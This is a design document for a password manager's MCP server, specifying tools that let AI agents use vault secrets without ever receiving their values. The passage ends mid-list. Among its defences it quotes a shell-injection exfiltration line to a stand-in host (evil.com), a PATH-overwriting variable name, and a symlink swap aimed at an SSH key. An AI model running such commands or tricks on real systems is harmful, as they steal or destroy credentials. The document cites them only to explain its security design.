

# MCP server (`kagisecure-mcp`)

Status: **implemented in M2, and served by the macOS app since M4.** All ten tools below exist
and are exercised end to end by `crates/kagisecure-cli/tests/mcp.rs` (against the CLI daemon) and
`crates/kagisecure-agent/tests/sidecar.rs` (against the library the app hosts). The thing on the
other end of the IPC socket is now the native app, with a Touch ID approval sheet — see §11.
`request_fill` (§2.10) is the newest: the macOS app serves it
([ADR-0036](decisions/0036-agent-requested-browser-fill.md) Phases 1–3, Chromium-family browsers),
behind a switch in Settings › AI Agents that is on by default since 0.1.3; `kagisecure daemon` never serves it, and
neither does the Windows app. The
terminal daemon is retained as the headless channel and is a thin wrapper over the same library
([ADR-0013](decisions/0013-agent-library-split.md)).

> **Contrast, M6.** This channel's defining property is that **no message can carry a secret
> value**, enforced by the crate graph ([ADR-0002](decisions/0002-no-secret-values-over-mcp.md)).
> The browser-extension channel added in M6 is the deliberate opposite: it carries exactly one,
> in exactly two response fields, because a password manager that cannot fill a password field
> is not one. The two are separate crates, separate sockets and separate wire formats precisely
> so that the difference is structural rather than a matter of care. See
> [browser-extension.md](browser-extension.md) and
> [ADR-0018](decisions/0018-browser-extension-secret-crossing.md).

`kagisecure-mcp` is a stdio MCP server built on `rmcp` 3.2.0 (2026-08-31). It is spawned by the
MCP client (Claude Code, Claude Desktop, Codex CLI, Cursor) as a child process, and it talks to
the long-running process that owns the unlocked vault over local IPC.

> Note on protocol version: rmcp 3.2.0 reaches MCP **2026-07-28** only through the `discover`
> lifecycle. An `initialize` handshake — what every stdio client does today — negotiates the
> newest *legacy* version, **2025-11-25**, and that is what a session with Claude Code actually
> uses. Nothing in the tool surface depends on the difference. (ADR-0007.)

## 1. The invariant

> **No tool exposed by `kagisecure-mcp` returns a secret value, in whole or in part, in any
> encoding, under any argument.**

Not masked. Not truncated. Not "the first four characters to confirm". Not a hash. Not a
length. The capability does not exist, so there is no argument, jailbreak, or prompt injection
that can produce it.

What agents *do* get: names, structure, and **actions**. An agent can discover that a `staging`
environment exists with `DATABASE_URL` and `STRIPE_SECRET_KEY` in it, and it can ask for those
to be written into `./` as a `.env` — and a human approves that with a fingerprint. It never sees
the characters.

## 2. Tool list

| Tool | Kind | Requires approval | Returns |
| --- | --- | --- | --- |
| `list_vaults` | read (metadata) | no | vault names/ids |
| `list_items` | read (metadata) | no | item titles, categories, tags |
| `list_environments` | read (metadata) | no | environment names/ids, var counts |
| `describe_item` | read (metadata) | no | field **labels and kinds** only |
| `create_environment` | write (structure) | yes (lightweight) | new env id |
| `add_variables` | write (structure) | yes, **values entered by the human** | var names added |
| `write_env_file` | **injection** | yes (biometric) | path + var names + lease id |
| `run_with_env` | **injection** | yes (biometric) | exit code, stdout/stderr masked by default (`output`) |
| `revoke_env_file` | cleanup | no | shredded paths |
| `request_fill` | **fill into a browser tab** | outside the app-wide grace window, a sheet and biometric; inside it, none (unless "Always show the sheet for agent fills" is on) | the field **names** written |

All ten are implemented — `request_fill` as §2.10 describes — and since M4 both of the behaviours this paragraph used to defer are
real: the approval is a Touch ID (or login-password) gate in the app's own sheet, and
`add_variables`'s pending entries are typed into a `SecureField` in the app's Agent access →
Environments editor. `kagisecure env add-var` still works and is what the headless daemon points
you at.

Ten tools. The list is fixed; there is no plugin mechanism. That is deliberate — a small,
auditable surface is the product.

Compare 1Password's Environments MCP server (`authenticate`, `create_environment`,
`rename_environment`, `append_variables`, `list_environments`, `list_variables`,
`create_local_env_file`, `list_local_env_files`). kagisecure's set is the same shape, minus
`authenticate` (there is no account; unlock happens in the native app) and plus `run_with_env`
and `revoke_env_file`.

### 2.1 `list_vaults`

```json
{
  "name": "list_vaults",
  "description": "List vaults the user has made visible to agents. Returns names only, never secret values.",
  "inputSchema": { "type": "object", "properties": {}, "additionalProperties": false }
}
```

Result:

```json
{
  "vaults": [
    { "id": "v_7f3a...", "name": "Personal", "item_count": 42, "environment_count": 3, "shared": false },
    { "id": "v_91cd...", "name": "Acme Corp", "item_count": 118, "environment_count": 7, "shared": false },
    { "id": "v_0b52...", "name": "Ops", "item_count": 2, "environment_count": 1, "shared": true }
  ]
}
```

Only vaults with `agent_visible = true` appear. See threat-model M-9.

Inside a visible vault, an item appears in `list_items` and `describe_item` when its own
`agent_visible` is set. Since 2026-10-04 that is the default for every item created or imported
while the logical vault's "Show new items to agents" setting is on (the default), with all its
fields; people show or hide existing items in bulk by selection, tag or category, one audit entry
(`set_agent_visible_bulk`, counts only) per change
([ADR-0007](decisions/0007-m2-daemon-and-ipc-deviations.md) amendment, threat-model M-9). Nothing
about values changes: §1's invariant holds whatever is visible.

**Shared vaults** ([ADR-0035](decisions/0035-shared-vaults.md) §14; addendum, decisions 88–93)
are listed with `shared: true` beside the personal vault's logical vaults, and every tool reads
them the same way: `list_items`, `list_environments` and `describe_item` include what is in them,
`write_env_file` and `run_with_env` release a shared environment, and `request_fill` fills a
shared login — with the same sheet, lease and presence rules. What an agent sees of a shared vault
is only what *this* computer has made visible to agents — a setting of each computer's own, hidden
by default — so a shared vault with nothing visible is not listed, and its counts are of what is
visible. A shared vault is read-only to agents: `create_environment` and `add_variables` aimed at
one are `INVALID_ARGUMENT` (§7), and a personal environment cannot be bound to a shared item. Ids
are unique across everything listed: where a personal and a shared item or environment share an
id, the personal one is the one listed and addressed, and an id two shared vaults share names
neither. Where two listed entries share a *name*, both are listed and the shared one is shown as
`name (vault)`. The approval sheet names the shared vault and every value about to be released
that changed since this computer last approved releasing it, or is released from it for the
first time — who changed it, and when; such a value is asked about again even under a live lease.
The release is recorded in the personal vault's audit log with the shared vault's id (§6).

### 2.2 `list_items`

```json
{
  "name": "list_items",
  "description": "List item titles and categories in a vault. Never returns field values.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vault_id": { "type": "string" },
      "query":    { "type": "string", "description": "Optional substring match on title or tag." },
      "category": {
        "type": "string",
        "enum": ["Login","Password","SecureNote","CreditCard","Identity","ApiCredential","Server","Database","SshKey","SoftwareLicense","Document","Environment"]
      },
      "limit":  { "type": "integer", "minimum": 1, "maximum": 200, "default": 50 },
      "cursor": { "type": "string" }
    },
    "additionalProperties": false
  }
}
```

Result: `{ "items": [{ "id", "title", "category", "tags", "updated_at" }], "next_cursor": null }`

`vault_id` is **optional** as implemented, contrary to the `required` list this document
originally carried: omitting it searches every vault the user has made agent-visible, which is
what an agent that has just called `list_vaults` and found one vault actually wants. The same
applies to `list_environments`.

### 2.3 `list_environments`

```json
{
  "name": "list_environments",
  "inputSchema": {
    "type": "object",
    "properties": { "vault_id": { "type": "string" } },
    "additionalProperties": false
  }
}
```

Result: `{ "environments": [{ "id", "name", "description", "variables": [{ "name", "kind",
"populated", "hint" }], ... }] }`

As implemented, each variable is an object rather than a bare name, so that an agent can tell a
bound variable from one still waiting on the user (`populated: false`) without a second call.
Names and binding *kinds* only; there is still no tool that takes an environment id and returns
values.

Variable **names** are returned; values are not, and there is no tool that takes an environment id
and returns values. (1Password's equivalent is `list_variables`; we fold it into
`list_environments` because there is no reason to make two calls for names.)

### 2.4 `describe_item`

```json
{
  "name": "describe_item",
  "description": "Describe an item's structure: field labels, kinds, and whether each is concealed. Never returns values.",
  "inputSchema": {
    "type": "object",
    "properties": { "item_id": { "type": "string" } },
    "required": ["item_id"],
    "additionalProperties": false
  }
}
```

Result:

```json
{
  "id": "i_3b21...",
  "title": "Acme production database",
  "category": "Database",
  "fields": [
    { "id": "f_01", "label": "hostname", "kind": "Text",      "concealed": false, "has_value": true },
    { "id": "f_02", "label": "username", "kind": "Text",      "concealed": false, "has_value": true },
    { "id": "f_03", "label": "password", "kind": "Concealed", "concealed": true,  "has_value": true }
  ],
  "urls": ["https://db.acme.example"],
  "tags": ["prod", "postgres"]
}
```

**One-time passwords.** An item may carry a `Totp` field; `describe_item` reports it exactly as it
reports any other concealed field — `{"label": "one-time password", "kind": "Totp", "concealed":
true, "has_value": true}` — and nothing more. Not the issuer, not the period, not the digit count,
and above all not the code. A generated TOTP code is secret material for as long as it is valid,
because anyone holding it inside its window can complete a second factor with it
(vault-format.md §5.3). There is no `read_totp` tool and none will be added.

This is enforced the same way §3 enforces everything else, and by the same mechanism: the code
generator lives in `kagisecure_core::totp`, which is compiled **only** under the `secret-material`
feature. `kagisecure-mcp` and `kagisecure-ipc` depend on the core without it, so neither crate can
name `Totp`, call `code_at`, or declare a field a code could occupy — a tool returning one would be
a compile error, not a review finding. `crates/kagisecure-cli/tests/mcp.rs` asserts it twice: once
by driving every tool against a vault whose agent-visible item *has* a TOTP field and checking that
neither the Base32 seed, nor the `otpauth://` URI, nor any code valid during the run appears in the
sidecar's stdout, stderr or the audit log; and once at the schema level, by asserting that no
tool's declared input or output mentions a one-time password at all.

Note `has_value` is a boolean, not a length. **Non-concealed field values are withheld too, always,
for secret and non-secret fields alike.** `hostname` looks harmless, but "return values when they
are not secret" is exactly the kind of rule that erodes. `describe_item` returns field names,
kinds, and metadata only — never a value, decided and final. There is no `read_public_field` tool
and none will be added; that would just be a differently-named way to widen `describe_item`. This
matches 1Password's Environments MCP server, whose `list_variables` tool returns only variable
names — by design the server cannot return values, secret or not, even if an agent asks
(<https://www.1password.dev/environments/mcp-server>).

### 2.5 `create_environment`

```json
{
  "name": "create_environment",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vault_id":    { "type": "string" },
      "name":        { "type": "string", "maxLength": 128 },
      "description": { "type": "string", "maxLength": 512 }
    },
    "required": ["name"],
    "additionalProperties": false
  }
}
```

The limits in this schema — and `hint`'s 200 characters and the 50 variables of §2.6, and the 64
arguments of §2.8 — are enforced by the process that owns the vault, not only by the sidecar,
because each of these strings is shown to a human on an approval sheet or in the app: a name or a
hint must also be a single line with no control characters (a description may break lines), so an
agent cannot lay out lines of its own on the sheet. A violation is `INVALID_ARGUMENT`, answered
before anyone is asked.

Creates an empty environment. Requires a lightweight approval (a confirmation in the app, no
biometric) because it mutates the vault. `vault_id` is optional; the user's first vault is the
default. Returns the new environment's metadata.

The environment is created **visible to that agent**. Everything else in the vault is
default-deny (threat-model M-9) and stays that way, but the user approved this specific call from
this specific caller a moment earlier, and handing back an id the agent cannot then see would be
theatre. See [ADR-0007](decisions/0007-m2-daemon-and-ipc-deviations.md) §6.

### 2.6 `add_variables` — the interesting one

An agent must be able to say *"this project needs `STRIPE_SECRET_KEY`"* without being the one who
supplies the value. So `add_variables` takes **names and optional bindings, never values**.

```json
{
  "name": "add_variables",
  "description": "Request that variables be added to an environment. The agent supplies names and optionally binds them to existing vault fields. Values for new secrets are entered by the user in the kagisecure app; this tool cannot accept a value.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "variables": {
        "type": "array",
        "maxItems": 50,
        "items": {
          "type": "object",
          "properties": {
            "name":  { "type": "string", "pattern": "^[A-Za-z_][A-Za-z0-9_]*$", "maxLength": 128 },
            "bind_to": {
              "type": "object",
              "description": "Optional: bind to an existing vault field instead of prompting the user.",
              "properties": {
                "item_id":  { "type": "string" },
                "field_id": { "type": "string" }
              },
              "required": ["item_id", "field_id"],
              "additionalProperties": false
            },
            "hint": { "type": "string", "maxLength": 200,
                      "description": "Shown to the user in the app to explain what to paste." }
          },
          "required": ["name"],
          "additionalProperties": false
        }
      }
    },
    "required": ["environment_id", "variables"],
    "additionalProperties": false
  }
}
```

There is no `value` property. The schema cannot express one.

**The name pattern is enforced, not advisory.** A name is rendered verbatim — `NAME=value` in a
`.env` file, a `NAME` key in a child's environment block — so a name carrying `=` or a line break
would write lines of the caller's choosing into the file (`PATH=/tmp/evil`) or hand a child an
entry nobody approved. The process that owns the vault checks every name against the pattern above
(and the 128-character limit) before a sheet goes up, and answers `INVALID_ARGUMENT` for a name
that fails it, or for a name that appears twice in one request; nothing is asked and nothing
changes. The check is repeated where names are rendered: `kagisecure_core` stores and renders only
a validated `VarName`, and a malformed name already in a vault (written by an older build) makes
`write_env_file` and `run_with_env` refuse rather than print it. The CLI's `env add-var` and `run
--env` apply the same rule (exit 2).

**`add_variables` adds; it never replaces.** A name the environment already has — typically one
the user bound to a real credential — is refused with `INVALID_ARGUMENT` before any sheet, and
again inside the transaction (the user may add it while the sheet is up); nothing changes. There
is deliberately no MCP tool to remove or rebind a variable: changing an existing one is the user's,
in the app or with `kagisecure env add-var` / `env rm`, which do replace.

**How the value actually gets in.** Two paths:

1. **Bind** (`bind_to` present): the variable references an existing field in the vault. Nothing
   is entered; the app confirms and the reference is created. This is preferred — rotate once,
   every environment follows. The target must be one `describe_item` would show — the item
   visible to agents, in a vault visible to agents, not in the trash — and the field must itself be
   marked visible to agents; any other target is answered `NOT_FOUND` exactly as one that does not
   exist.
2. **Prompt** (`bind_to` absent): the app raises a *pending entry* for that variable name. The
   tool returns immediately with `status: "pending_user_input"` and a deep link
   (`kagisecure://environments/<env_id>/pending`), and the app brings its window forward with a
   secure text field showing the agent's `hint`. The user types or pastes the value into the
   **native app**, not into the agent's chat. The agent can poll `list_environments` to see when
   the name appears as populated.

   **As implemented in M4** the variable is stored as `VarSource::Pending { hint }` — a third
   variant vault-format §5.2 does not list, added for exactly this flow (ADR-0007 §4) — and the
   app's Agent access → Environments editor shows it with an orange **Pending** badge, the
   agent's `hint` in quotes, and a `SecureField` to type the value into. That is an **in-app
   pending list, not a URL scheme**: the `kagisecure://` deep link is still returned in the tool
   result because the schema says so, but nothing registers or handles the scheme, and the app
   does not bring itself forward for an `add_variables`. Registering `CFBundleURLTypes` is a
   small, separate change and is deliberately not made here — a URL scheme is an inbound channel
   any local process can drive, and it wants its own thought about what it is allowed to do.
   `list_environments` reports the variable as `populated: false`, and `write_env_file` refuses an
   environment that still contains one rather than writing a blank.

Result:

```json
{
  "environment_id": "e_88...",
  "bound":   ["DATABASE_URL"],
  "pending": ["STRIPE_SECRET_KEY"],
  "deep_link": "kagisecure://environments/e_88.../pending",
  "status": "pending_user_input"
}
```

> Assumption: the pending-entry flow is asynchronous (return immediately, agent polls) rather than
> blocking the tool call until the user types. Blocking a tool call for minutes interacts badly
> with client timeouts. MCP 2026-07-28's SEP-2322 `InputRequiredResult` would let the *client*
> collect the value mid-call, but that puts the secret through the client — exactly what we are
> avoiding. Noted in §8.

### 2.7 `write_env_file`

```json
{
  "name": "write_env_file",
  "description": "Write a .env file containing an environment's variables into a directory. Requires the user to approve with Touch ID / Windows Hello in the kagisecure app. Values are written by the app; they are not returned to you.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "directory":      { "type": "string", "description": "Absolute path to the project directory." },
      "filename":       { "type": "string", "default": ".env", "pattern": "^\\.?[A-Za-z0-9._-]+$" },
      "variables":      { "type": "array", "items": { "type": "string" },
                          "description": "Optional subset of variable names. Default: all." },
      "overwrite":      { "type": "boolean", "default": false },
      "ttl_seconds":    { "type": "integer", "minimum": 60, "maximum": 86400, "default": 900,
                          "description": "Requested lease duration; the user may shorten it." }
    },
    "required": ["environment_id", "directory"],
    "additionalProperties": false
  }
}
```

Result:

```json
{
  "path": "/Users/x/code/acme/.env",
  "variables_written": ["DATABASE_URL", "STRIPE_SECRET_KEY", "REDIS_URL"],
  "bytes": 214,
  "lease_id": "l_4a9c...",
  "expires_at": "2026-09-09T12:15:00Z",
  "gitignored": true
}
```

Behavior:

- The **app** writes the file, with mode `0600`, after the biometric. The sidecar never touches
  the bytes. (Headless: `kagisecure daemon` writes it, after a terminal `y/N`. Both run the same
  `kagisecure-agent` code.) The write is atomic —
  a `0600` temporary file in the same directory, created with `O_EXCL`, renamed into place — so
  there is no window in which a world-readable file holds a value.
- `directory` is canonicalized (symlinks resolved) before display and before any policy check.
  A path that resolves outside the client's declared workspace root gets a louder warning.
- If the target is inside a git work tree and not covered by `.gitignore`, the approval sheet says
  so in red. **The one-click "add the ignore entry" affordance is not built** — the warning is;
  see the roadmap's M4 deferrals.
- Refuses to clobber a pre-existing file it did not write unless `overwrite: true` **and** the
  user approves the overwrite specifically. That approval is asked **every time**: no lease covers
  replacing a file kagisecure did not write, however live and however exactly it matches the
  directory, file name and variables, because a lease approves writing kagisecure's file, not
  replacing the user's. "Did not write" is decided by the file itself — its identity against the
  one kagisecure recorded at that path — so a file the user renamed over kagisecure's since is
  theirs, and the sheet says so.

### 2.8 `run_with_env`

```json
{
  "name": "run_with_env",
  "description": "Run a command with an environment's variables injected into its process environment. Requires user approval. Secrets are never returned to you; command output is scrubbed for known secret values.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "command":        { "type": "string", "description": "Executable. Not a shell string." },
      "args":           { "type": "array", "items": { "type": "string" }, "maxItems": 64 },
      "cwd":            { "type": "string", "description": "Absolute path." },
      "variables":      { "type": "array", "items": { "type": "string" } },
      "timeout_seconds":{ "type": "integer", "minimum": 1, "maximum": 3600, "default": 300 },
      "output": { "type": "string", "enum": ["scrubbed", "none"], "default": "scrubbed",
                  "description": "\"scrubbed\": return stdout/stderr with injected values masked. \"none\": omit stdout/stderr and return only the exit code. There is no unmasked option over MCP." }
    },
    "required": ["environment_id", "command", "cwd"],
    "additionalProperties": false
  }
}
```

Result: `{ "exit_code": 0, "stdout": "...", "stderr": "...", "truncated": false, "scrubbed": 2 }`
(with `output: "none"`, `stdout`/`stderr`/`truncated`/`scrubbed` are omitted).

Behavior and caveats:

- `command` + `args` are passed to the OS directly. **No shell.** No `sh -c`. This removes an
  enormous injection surface (`; curl evil.com?$SECRET`).
- The **app** spawns the child, so the secrets are in the app's `posix_spawn`/`CreateProcess`
  environment block, not in the sidecar's.
- **Decided:** `run_with_env` returns output by default (`output: "scrubbed"`), because an agent
  that cannot see why `npm run migrate` failed is useless. Before returning, the app replaces any
  occurrence of an injected value in stdout/stderr with `[kagisecure:redacted:VARNAME]` and reports
  the count. This mirrors 1Password's `op run`, which conceals injected secret values in the child
  process's stdout/stderr by default, showing `<concealed by 1Password>` in their place
  (<https://developer.1password.com/docs/cli/reference/commands/run>,
  <https://developer.1password.com/docs/cli/secrets-environment-variables>).
- Scrubbing, like 1Password's masking, is **best effort only, and documented as such — not a
  security boundary**: it is an exact-value substring replacement, so a command that base64s,
  reverses, or splits a secret defeats it. It is a guard against accidental echo (a stack trace
  printing a connection string), not against a hostile command.
- Callers that don't need output can pass `output: "none"` to get only the exit code. **There is no
  unmasked / `--no-masking`-equivalent option over MCP.** 1Password only exposes `--no-masking` at
  the `op` CLI, never through the MCP server; kagisecure's own CLI (`kagisecure run`, M1) may offer
  an equivalent for the user's own terminal, but `run_with_env` never returns an unmasked value to
  an agent — masking is not opt-out here.
- stdout/stderr are capped (default 64 KiB each) and marked `truncated`.
- `timeout_seconds` is brought into 1–3600 by the process that spawns the child, not only by the
  sidecar: a caller that speaks the socket protocol directly cannot ask for a child that is
  killed at once or one that is never killed. The child runs with no lock held, so a long command
  does not hold up the app or any other request.
- **The call is bounded, and it ends the whole process group — not just the command.** The child
  is spawned as the leader of a process group of its own (Windows: a job object). At the deadline
  the group gets `SIGTERM`, then `SIGKILL` 2 s later if the command is still there. When the
  command exits first, anything it left running in its group — a backgrounded helper, a
  daemon-ish grandchild that inherited the output pipes — is ended the same way (`SIGTERM`, then
  `SIGKILL` within 2 s; a group with nothing left in it costs nothing). This is a deliberate
  choice over tracking the group until it empties: the command's result is in, a lock can only
  reach what is still registered, and a child is deregistered when its call returns, so leaving
  its group running would leave the injected value alive where no lock can end it. Output is
  then read for at most 0.5 s more from a pipe that something *outside* the group still holds (a
  process that deliberately left it with `setsid`, the residual gap below); that stream comes back
  marked `truncated`. So the reply arrives within `timeout_seconds` plus about 2.5 s, whatever the
  command's descendants do. `kagisecure run` in a terminal is unaffected: it has no deadline,
  keeps the child in the terminal's process group, and waits as a shell would. Every signal is
  sent only while the command's own process is still unreaped, so its group id cannot have been
  handed to an unrelated process in the meantime.
- The user's approval sheet shows the resolved executable path, the full argv, and the cwd.
- **Locking ends the child, not just the vault.** A `run_with_env` command keeps the injected
  value in its own process environment for as long as it runs, on a thread the ordinary lock
  hooks (deny every pending approval, drop every lease, shred every file a lease wrote) cannot
  reach — that thread is blocked waiting on the child, not waiting on the vault. Locking sends
  `SIGTERM` to the child's whole process group, then `SIGKILL` after a short grace period if
  anything in it is still alive (Windows: the equivalent job-object terminate, at once — there is
  no soft-stop signal to send an unmodified process there). The group, not just the one pid, so a
  command that itself forks a child — a build tool spawning a bundler — does not keep running with
  the value still in reach after its parent is gone; a process that deliberately detaches itself
  from the group is the one case this does not reach, the same residual gap
  `kagisecure-childproc`'s own documentation names for the same reason. The reply for a call caught
  this way is `VAULT_LOCKED`, exactly as if the request had arrived after the lock rather than
  before it — never a result that looks like the command ran to completion in an open vault. A
  `Failed` audit entry follows with detail `KILLED_ON_LOCK (entry <seq>)` (§6).
- **A lock racing the spawn still wins.** The release is prepared (and its `Allowed` entry
  committed) before the child is spawned, so a lock can land in between. The last thing before
  the spawn is a re-check that the agent is still serving; a lock acknowledged by then means
  nothing starts (`VAULT_LOCKED`, and a `Failed` entry with detail `LOCKED_BEFORE_START`). A lock
  that lands after that check but before the child is registered has already emptied — and
  closed — the registry of running children, so the registration is refused and the child killed
  at once (`KILLED_ON_LOCK`). A lock, once acknowledged, stays in force for the life of that
  agent: the app or daemon is told about it once, and nothing is served in the moment between
  being told and taking the vault away.

### 2.9 `revoke_env_file`

```json
{
  "name": "revoke_env_file",
  "inputSchema": {
    "type": "object",
    "properties": {
      "lease_id": { "type": "string" },
      "path":     { "type": "string" }
    },
    "additionalProperties": false
  }
}
```

Deletes a `.env` file kagisecure wrote (overwriting its bytes first on a best-effort basis) and
kills the lease. No approval required — revoking access is always allowed. Agents are encouraged
in the tool description to call this when they finish a task.

**Revoking is idempotent and cannot fail.** A `lease_id` that names no live lease — it expired, ran
out of uses, was revoked already, or died with a vault lock — returns `{"shredded": []}`: nothing
was left to shred, which is the same end state the caller was asking for. An agent that finishes a
task and tidies up must not be handed an error for tidying up twice.

**Lock shreds by what was written, not by what is still leased.** A lease that already ran out of
uses — "Allow once" is the common case, since a single-use lease is consumed by the very write that
mints it — is gone from the live-lease table before a lock ever happens, but the file it wrote is
still on disk. Locking shreds it anyway: the record of every path this session has ever written
outlives the lease that wrote it for exactly this reason (the same ledger `revoke_env_file` walks
by path after a lease has expired), and the vault lock hook empties that ledger, not just the live
leases, on every lock.

**Shredding touches only the file that was written.** The ledger records, beside each path, the
identity of the file kagisecure wrote there (device and inode on Unix; volume serial and file index
on Windows), read off the very handle the bytes went through. A revoke or a lock opens the path
without following a symlink in its final component (`O_NOFOLLOW`; `FILE_FLAG_OPEN_REPARSE_POINT` on
Windows) and overwrites nothing unless that handle is a regular file with the recorded identity.
Anything else now at the path — a symlink planted after the write, a directory, a different file
renamed over it — is left exactly as it is, the reply's `shredded` list omits it, and a `Failed`
audit entry with detail `NOT_SHREDDED_FILE_REPLACED` names the path. Without this, swapping an
approved `.env` for a symlink to `~/.ssh/id_ed25519` and calling `revoke_env_file` — which needs no
approval — would have zeroed the key.

### 2.10 `request_fill`

```json
{
  "name": "request_fill",
  "description": "Ask the user to let kagisecure fill a saved login into the browser tab they are looking at. The user approves in the kagisecure app with a biometric. Returns only which fields were filled: this tool never returns a secret value. Works only in a browser with the kagisecure extension, in the tab in front, when that tab's origin is exactly `origin` and is a website saved on the item. On a sign-in that asks for the username first, one approval covers both pages: the username is filled now and `fields_pending` lists the password — press the page's own Next button, then call again for [\"password\"] within 60 seconds, and no second approval is asked. Ask for `one_time_code` in a call of its own: it is approved on its own every time and filled only into a page with a code field, never copied to the clipboard. Be aware: kagisecure never gives you a value, but it types the value into a page you are driving, and an agent that can run script in that page can read it there.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "item_id": { "type": "string", "description": "From list_items. Titles are not accepted." },
      "origin":  { "type": "string", "description": "The origin of the page you have open, e.g. https://example.com." },
      "fields": {
        "oneOf": [
          { "type": "array", "items": { "type": "string", "enum": ["username", "password"] },
            "minItems": 1, "maxItems": 2, "uniqueItems": true },
          { "type": "array", "items": { "type": "string", "const": "one_time_code" },
            "minItems": 1, "maxItems": 1 }
        ],
        "default": ["username", "password"]
      }
    },
    "required": ["item_id", "origin"],
    "additionalProperties": false
  }
}
```

Result: `{ "status": "filled", "fields_written": ["username", "password"], "fields_pending": [] }`.
Field **names** only; `fields_pending` is non-empty only when the page asked for the username first
and the same approval may write the password on the next page (below). Everything else is an error
(§7).

**kagisecure never gives the agent a value. It types the value into a page the agent is driving, on
a site saved for that login, after the user approves — and an agent that can run script in that
page can read it there.** That is the true sentence for this tool, and it is stated here, in the
tool's description and in the server instructions rather than in a caveat. §1's invariant is about
the MCP channel and still holds: the result names fields, and the IPC reply it maps onto
(`Response::FillResult`) has no member a value fits in, so `kagisecure-mcp` and `kagisecure-ipc`
still compile without `secret-material`. What leaves the channel is the same shape as
`write_env_file`'s file, which an agent with file access can read (threat-model N-6). Approving an
agent fill is trusting that agent with that login, for that site, for as long as it can read the
page. [ADR-0036](decisions/0036-agent-requested-browser-fill.md) §8 has the whole argument.

**Fields.** `username`, `password` or both, or `one_time_code` **on its own**: a code never rides
along with a password, because the pair is the account. At least one field, none twice. A call
that breaks this is `INVALID_ARGUMENT`, checked by the sidecar before anything is asked. `item_id`
takes an id exactly as `describe_item` does; a malformed one is `NOT_FOUND`. Unknown properties are
refused, not ignored.

**Status: served by the macOS app, Phases 1–3.** Username and password on a single page,
identifier-first sign-ins across two pages, and one-time codes, in a Chromium-family browser with
the extension. The switch, "Let agents fill logins in your browser" in Settings › AI Agents, is on
by default and asks for no presence check either way; while it is off every call is
`FILL_UNAVAILABLE`.

> **Changed in 0.1.3** ([ADR-0036 amendment of 2026-10-03](decisions/0036-agent-requested-browser-fill.md#amendment-2026-10-03-agents-fill-without-prompts-during-grace)).
> While the app-wide grace window is open — opened by any successful Touch ID check in the app,
> extended by every use, and by default lasting until the vault locks — an agent fill (login,
> two-page sign-in or one-time code) is granted with **no sheet and no biometric**. "Always show
> the sheet for agent fills" (Settings › Security & Unlock › Advanced) restores the sheet. The sheet
> budget, sticky denials and the block after a second origin mismatch are gone: a mismatch is
> still refused, audited and noticed, and *Deny and block* and the one-fill-at-a-time rule remain.
> The tab no longer has to be in front: a background tab at `origin` is used when the tab in front
> does not match. Where the text below describes a sheet, it means a fill outside the grace window. A Safari session
never declares the capability, so a user whose only connected browser is Safari gets
`FILL_UNAVAILABLE` too (ADR-0036 §12). `kagisecure daemon` has no browser extension to ask and
never will, and the Windows app does not offer agent fills at all: every call there is
`FILL_UNAVAILABLE`. The Rust and extension halves are tested headlessly; no agent fill has yet been
driven end to end in a real browser with the real app (ADR-0036, "Implementation status").

**Identifier-first sign-ins** (ADR-0036 §7.3). When the tab in front asks for the username alone —
a username box and no password box — a request for `["username", "password"]` is one approval for
two pages, and the sheet says so ("username now, password on the next page"). The first call
writes the username and returns `fields_written: ["username"]`, `fields_pending: ["password"]`.
The agent presses the page's own Next button and calls again for `["password"]`, same item, from
the same `kagisecure-mcp` process, within 60 seconds of the approval. That call raises no sheet: it
is served if the same tab, in the same browser session, is in front at `origin`, which is the same
site as page one (the same origin or a subdomain of it — the extension's own rule) and saved for
the item, with a password field. Page two may be a new document or the same one with its form
swapped in place. Anything else about that call — another tab or site, or no password field yet —
is `NO_MATCHING_TAB`, and it spends the pending step: the agent's next call is a new request with a
sheet of its own. So is a call for another item, from another agent, after the 60 seconds, or
after a lock. If the password step never comes, the log records that the username was written and
the password never was.

**One-time codes** (ADR-0036 §7.4). `["one_time_code"]` is its own request, with its own sheet and
biometric outside the grace window: approving a password never approves a code, and a pending identifier-first
step does not either. The tab in front must have a one-time-code field; the code is written there
or nowhere — never onto the clipboard, which every process the user runs can read. The code is
audited like every one-time code the browser receives, under the tool name `totp_code`, before it
leaves the app. As for passwords: kagisecure never gives the agent the code, and an agent that can
run script in the page can read it there.

**The order of the checks** (ADR-0036 §11.1), each answered before the next is made:

1. **Enabled, and not blocked or limited.** Off — or no kernel-established sidecar process (and
   parent) to bind the grant and the limits to — is `FILL_UNAVAILABLE`, before the vault's lock
   state and before the item, so it is the same for every item id, real, hidden or made up. Then,
   in this order and still before the item: an agent the user blocked is `USER_DENIED`; and while
   another agent fill is in progress the request is `RATE_LIMITED` with a sentence of its own: one
   at a time, never a queue of sheets. (The ten-minute sticky denial and the three-sheet budget
   were removed in 0.1.3.) None of these raises a sheet. "The agent"
   is the sidecar's parent program as the kernel reports it, never the name the client reports.
   Then the arguments (`INVALID_ARGUMENT`; an `origin` that is not an http(s) origin is one too).
2. **Vault unlocked**: `VAULT_LOCKED`; a vault file that no longer continues the session:
   `VAULT_CONFLICT`.
3. **The item**, by exactly `describe_item`'s rule: absent, hidden, in a hidden vault or trashed are
   one `NOT_FOUND`, the same bytes, down the same path, before any browser is asked.
4. **The fields**: a requested field the item has no value for, or an archived item:
   `NOTHING_TO_FILL`.
5. **A browser to ask**: no connected extension session that declared agent fills:
   `FILL_UNAVAILABLE`.
6. **The tab.** Every connected browser reports the tab in front; exactly one, across all of them,
   must be the visible top frame of the active tab, at exactly `origin`, on a site saved for the
   item, with the fields asked for — or, for username and password, an identifier-first page one.
   For page two of an identifier-first sign-in only the browser and tab of page one are asked
   (above). Otherwise `NO_MATCHING_TAB` — one code, one message, whatever
   the reason, so it is not an oracle for an item's websites. A tab in front on a site the item is
   not saved for (a look-alike) is also reported to the user when it can be the agent's own — the
   only tab in front, or at exactly `origin`. (Since 0.1.3 a second one no longer blocks the agent,
   and a background tab at `origin` is used when the tab in front does not match.)
7. **Audit pre-flight**: `AUDIT_UNAVAILABLE`. Asked before check 5, not after 6: it does not
   depend on the tab, and answered after a tab was chosen it would say one had been. For the same
   reason a lock while the browsers are being asked is `VAULT_LOCKED` right after they have
